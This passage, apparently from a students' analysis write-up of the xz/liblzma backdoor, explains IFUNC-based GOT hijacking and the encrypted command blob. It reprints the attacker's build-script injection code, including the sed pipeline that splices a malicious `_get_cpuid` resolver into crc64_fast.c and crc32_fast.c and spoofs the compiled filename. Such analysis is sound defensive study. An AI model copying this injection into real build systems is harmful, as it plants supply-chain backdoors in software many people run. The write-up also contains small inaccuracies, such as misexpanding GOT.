The next step is where things get much more insideous and also the point where we began to rely on writeups. 
To understand the attack you need to understand IFUNC. IFUNC is a feature of GNU that allows for function addresses to be resolved at runtime rather than compile time. 
So imagine in my notes taking application I need to use some sort of math library and there are two versions of the function. One with AVX2 and one without it. 
The library will provide a resolver that will edit the Global Offset Resolver table (GOT) for that program. 
Nowadays most security sensitive programs are compiled with an option that forces function resolution at program startup. 
This allows for the GOT to be locked to read only which prevents edits from buffer overflows. 

This backdoor takes advantage of that small window when the GOT is editable by creating a malicous resolver which is present in `liblzma_la-crc64-fast.o`. 
The code works by hijacking crc64_fast.c's already present resolver and having it call `_is_arch_extension_supported` rather than `is_arch_extension_supported`. 
This results in it calling `_get_cpuid` rather than `get_cpuid`. 
That `_get_cpuid` ends up editing the GOT tables which allows it to hijack RSA_public_decrypt. 
These files are compiled together to result in the final `.libs/liblzma_la-crc64_fast.o` which is dynamically linked into other projects at which point it hijacks the GOT tables.
We do not have much experience with C build systems so we had to rely on [the same writeup](https://research.swtch.com/xz-script) to get started with our analysis

It begins by creating a backup of the original object file incase the compilation doesn't succeed and then goes ahead with the compilation.

```bash
cp .libs/liblzma_la-crc64_fast.o .libs/liblzma_la-crc64-fast.o || true
```

```bash
V='#endif\n#if defined(CRC32_GENERIC) && defined(CRC64_GENERIC) && defined(CRC_X86_CLMUL) && defined(CRC_USE_IFUNC) && defined(PIC) && (defined(BUILDING_CRC64_CLMUL) || defined(BUILDING_CRC32_CLMUL))\nextern int _get_cpuid(int, void*, void*, void*, void*, void*);\nstatic inline bool _is_arch_extension_supported(void) { int success = 1; uint32_t r[4]; success = _get_cpuid(1, &r[0], &r[1], &r[2], &r[3], ((char*) __builtin_frame_address(0))-16); const uint32_t ecx_mask = (1 << 1) | (1 << 9) | (1 << 19); return success && (r[2] & ecx_mask) == ecx_mask; }\n#else\n#define _is_arch_extension_supported is_arch_extension_supported'
eval $yosA
if sed "/return is_arch_extension_supported()/ c\return _is_arch_extension_supported()" $top_srcdir/src/liblzma/check/crc64_fast.c | \
sed "/include \"crc_x86_clmul.h\"/a \\$V" | \
sed "1i # 0 \"$top_srcdir/src/liblzma/check/crc64_fast.c\"" 2>/dev/null | \
$CC $DEFS $DEFAULT_INCLUDES $INCLUDES $liblzma_la_CPPFLAGS $CPPFLAGS $AM_CFLAGS $CFLAGS -r liblzma_la-crc64-fast.o -x c -  $P -o .libs/liblzma_la-crc64_fast.o 2>/dev/null; then
```

I would not have discovered this without the writeup, but there's another neat bit of evasion going on here. 
We are compiling the modified c code from stdin so the compiler will report an unusual thing being compiled.
So the attacker added this `# 0 "src/liblzma/check/crc64_fast.c"` to the file which is a macro telling the compiler to report that as the file that was compiled. Woah!

```bash
sed "1i # 0 \"$top_srcdir/src/liblzma/check/crc64_fast.c\"" 2>/dev/null | \
```

If the compilation of `src/liblzma/.libs/liblzma_la-crc64_fast.o` succeeds it continues on to build
`src/liblzma/.libx/liblzma_la-crc32_fast.o`. 

The same backup step as before occurs but for the 32 bit version.

```bash
cp .libs/liblzma_la-crc32_fast.o .libs/liblzma_la-crc32-fast.o || true
```

```bash
if sed "/return is_arch_extension_supported()/ c\return _is_arch_extension_supported()" $top_srcdir/src/liblzma/check/crc32_fast.c | \
sed "/include \"crc32_arm64.h\"/a \\$V" | \
sed "1i # 0 \"$top_srcdir/src/liblzma/check/crc32_fast.c\"" 2>/dev/null | \
$CC $DEFS $DEFAULT_INCLUDES $INCLUDES $liblzma_la_CPPFLAGS $CPPFLAGS $AM_CFLAGS $CFLAGS -r -x c -  $P -o .libs/liblzma_la-crc32_fast.o; then
```

If both of those succeed we then link the object files into a shared object 

```bash
if $AM_V_CCLD$liblzma_la_LINK -rpath $libdir $liblzma_la_OBJECTS $liblzma_la_LIBADD; then
```

Then there is a section of code that handles cleaning up if any of these fails along with removing any extraneous files from the linking step. We don't quite understand why it deletes all these files, but our guess is it's just checking that the link step will work. 

```bash
                if test ! -f .libs/liblzma.so; then
                    mv -f .libs/liblzma_la-crc32-fast.o .libs/liblzma_la-crc32_fast.o || true
                    mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
                fi
                rm -fr .libs/liblzma.a .libs/liblzma.la .libs/liblzma.lai .libs/liblzma.so* || true
            else
                mv -f .libs/liblzma_la-crc32-fast.o .libs/liblzma_la-crc32_fast.o || true
                mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
            fi
            rm -f .libs/liblzma_la-crc32-fast.o || true
            rm -f .libs/liblzma_la-crc64-fast.o || true
        else
            mv -f .libs/liblzma_la-crc32-fast.o .libs/liblzma_la-crc32_fast.o || true
            mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
        fi
    else
        mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
    fi
    rm -f liblzma_la-crc64-fast.o || true
```

# The Backdoor

As expected, the backdoor itself is also thoughtfully crafted.
Naively, you would think this backdoor works by allowing the attacker who has a certain private key ssh access. 
However, this would result in the SSH activity being logged 
Thus once a dillagent admin sees malicous activity on their server combined with a ssh login for a key that isn't in authorized_keys they may piece together that sshd itself has been compromised. 

The backdoor works by pretneding to do RSA authenticaton.
However the attacker does not send a legitimate RSA key.
Instead they send an encrypted ED448 signed cipher text which fits within the 256-512 byte RSA key field.

ChaCha20 encrypted blob:

```
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|   a (32 bit)  |   b (32 bit)  |           c (64 bit)          |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                                               |
+                     ciphertext (240 bytes)                    +
|                                                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```
[source](https://github.com/amlweems/xzbot)

The ChaCha20 encrypted blob can be decrypted by using a, b, c as the key which also is the first half of the ED448 key. 
According to the author, a, b, and c are also used to determine whether of not to execute the command portion of the blob below.
If a*b+c is equal to 2, the command will be executed by a call to system().

Decrypted blob:

```
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                    ED448 signature (114 bytes)                |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
| x (1 bit) |            unused ? (14 bit)          | y (1 bit) |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|        unknown (8 bit)        |         length (8 bit)        |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|        unknown (8 bit)        |         command \x00          |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```
[source](https://github.com/amlweems/xzbot)

We can confirm some of this behavior by analyzing the compromised shared object file in IDA.
I started by doing a xref graph from liblzma_crc64 as this should contain the backdoor or
the GOT hijacking. Also, for clarity, CRC is cyclic redundancy check and is used to verify
the integrity of blocks within xz compression.



Interesting! We know that we should expect a chain of subroutines because `crc64_resolve()` should call`_is_arch_extension_supported()` should call `_get_cpu_id()` which may call other subroutines
so we should start our analysis at `sub_47F0`. Doing so reveals that this is in fact the crc64_resolve function that we are looking for due to what appears to be `_is_arch_extension()` inlined
along with a path to a legit call to cpuid.





Unfortunately we ran out of time at this point, but within the malicous `_get_cpu_id` it does some really odd memory operations to locations that IDA can't resolve.
This is likely the GOT/PLT shenanigans.



